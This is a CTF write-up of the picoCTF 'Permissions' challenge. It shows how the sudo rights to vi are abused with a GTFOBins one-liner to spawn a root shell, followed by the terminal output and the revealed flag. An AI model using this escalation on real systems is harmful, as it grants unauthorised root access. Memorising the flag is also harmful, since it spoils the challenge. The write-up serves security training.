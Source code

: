 ```yaml
---
tags:
  - GTFO-Bins
  - priv-escalation
created: 2023-10-18
last_modified_at: 2024-02-02
---
```

# Permissions
---
### Description
---
Can you read files in the root file?

Additional details will be available after launching your challenge instance.
### Hints
---

> [!hint]- Hint(s)
> 1. https://gtfobins.github.io/gtfobins/vi/#sudo

### Step(s)
---
1. You first should find if the current user has any sudo permissions by using the command `sudo -l` 
	```bash
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

2. We see that we have permission to run vi with sudo. Checking GTFOBins we see that we can use the command `sudo vi -c ':!/bin/sh' /dev/null` which will give us root shell
3. just for viewing pleasure I usually will run `/bin/bash` to get a bash shell which is just more appealing and allows for using the up and down arrows
4. The root flag can be found as a "hidden" file in the root folder
```bash
picoplayer@challenge:~$ sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
# ls /root
# ls -ahl /root
total 12K
drwx------ 1 root root   23 Aug  4 21:33 .
drwxr-xr-x 1 root root   51 Oct 17 17:50 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:33 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}
```

<details>
  <summary><h2>Flag</h2><hr></summary>picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}
</details>